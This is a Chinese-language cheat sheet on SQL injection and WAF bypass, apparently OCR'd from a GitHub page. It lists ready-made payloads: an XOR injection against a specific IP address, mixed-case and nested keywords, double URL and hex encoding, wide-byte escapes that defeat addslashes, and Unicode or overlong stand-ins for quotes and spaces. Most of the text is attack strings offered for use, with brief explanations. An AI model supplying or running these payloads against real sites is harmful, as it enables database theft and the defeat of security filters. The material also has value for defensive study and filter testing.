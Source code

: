 	比如你输入的语法是：
	id=1+Select+1,2,3--
	会给你报出以下错误：
	Error at line 1 near " "+1,2,3--
	上面也说过了黑名单方式过滤，也可以采用以下方式进行绕过：
	sel%0bect+1,2,3
###异或注入攻击
异或注入
http://120.24.86.145:9004/1ndex.php?id=1'^(0)^ '
两个同为真的条件做异或，结果为假
两个同为假的条件做异或，结果为假
一个条件为真，一个条件为假，结果为真
null与任何条件（真、假、null）做异或，结果都为null
###大量数据填充

##如何绕过WAF?

1. 绕过大小写过滤
	当我们在目标URL进行SQL注入测试时，可以通过修改注入语句中字母的大小写来触发WAF保护情况。如果WAF使用区分大小写的黑名单，则更改大小写可能会帮我们成功绕过WAF的过滤。

		http://target.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4

2. 关键字替换
	(在关键字中间可插入将会被WAF过滤的字符) – 例如SELECT可插入变成SEL
	正则表达式替换或删除select、union等关键字，且只匹配一次

		http://target.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4
		同样是很基础的技术，有些时候甚至构造得更复杂：SeLSeselectleCTecT

3. 编码绕过
	+ URL encode  
	普通的URL编码可能无法实现绕过不过，存在某种情况URL编码只进行了一次解码过滤可以用两次编码绕过

			空格变为%20、单引号%27、左括号%28、右括号%29、百分号%25
			page.php?id=1%252f%252a*/UNION%252f%252a/SELECT
			page.php?id=1%2f%2a*/UNION%2f%2a/SELECT 一次解码
			page.php?id=1/**/UNION/*/SELECT   两次解码
	
	+ Hex encode
	
			target.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4…//对单个字符十六进制编码
			SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)) //对整个字符串编码
			常见的编码当然还有二进制、八进制
	
	+ Unicode encode
	
			?id=10%D6‘%20AND%2201=2%23   //%df绕过addslashes,逃逸'或",%D6同理，双字节绕过（也叫宽字节注入），比如对单引号转义操作变成\'，那么就变成了%D6%5C'，%D6%5C构成了一个款字节即Unicode字节，单引号可以正常使用

			SELECT 'Ä'='A'; #1 //使用的是两种不同编码的字符的比较，它们比较的结果可能是True或者False，关键在于Unicode编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过
		
			utf-7的绕过，还有utf-16、utf-32的绕过，后者从成功的实现对google的绕过，有兴趣的朋友可以去了解下
		
		单引号：%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7
		空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0
		左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8
		右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9
